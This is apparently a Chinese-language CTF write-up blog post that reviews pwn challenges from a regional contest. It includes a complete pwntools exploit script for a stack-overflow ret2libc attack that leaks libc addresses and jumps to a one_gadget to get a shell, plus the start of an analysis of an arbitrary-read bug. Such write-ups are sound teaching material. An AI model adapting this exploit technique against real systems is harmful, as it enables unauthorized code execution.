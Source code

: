 ```yaml
---
title: 铁三福建赛区pwn回顾
author: nepire
avatar: https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg
authorLink: https://nepire.github.io/
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2019-11-05 11:44:15
tags:
keywords:
description:
photos:
---
```


建了新博客开始还是写点东西存着，不然空空的感觉也不是很好，刚好看到文涛学长给我的铁三PWN题，当时我连涛神写的exp都看不懂，现在看看自己当初真的太菜了，所以现在重新看一遍题目来检验现在的实力





## ROP


### 思路

简单看了一遍程序，vuln函数明显的栈溢出，利用空间贼大，checksec检测下只开了NX，
直接ret2libc做ROP来getshell
### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./rop')
elf = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('./libc32')

buf = 'a'*0x88
vuln_addr = 0x08048474
write_got = elf.got['write']
write_plt = elf.plt['write']
write_sym = libc.symbols['write']
bin_sh = libc.search('/bin/sh').next()
system_sym = libc.symbols['system']

leak = buf+'aaaa'+ p32(write_plt) +p32(vuln_addr)+ p32(1) + p32(write_got) + p32(0x4)
n.sendline(leak)
write_addr = u32(n.recv())
print hex(write_addr)

libc_base = write_addr - write_sym
system_addr = libc_base + system_sym
#one_gadget = 0x3a80c
one_gadget = 0x3ac5c + libc_base
payload = buf+ 'aaaa' + p32(one_gadget)
n.sendline(payload)

n.interactive()
```


## breakfast

### 思路

简单的审一遍代码发现

![nepire](https://raw.githubusercontent.com/Nepire/Nepire.github.io/master/images/20180916113547.jpg)

write正常应该是输出ptr[idx]，这里很突兀的就输出了ptr[idx]所指向地址的内容，所以往ptr[idx]里写入write的got地址来获得实际地址来计算libc_base
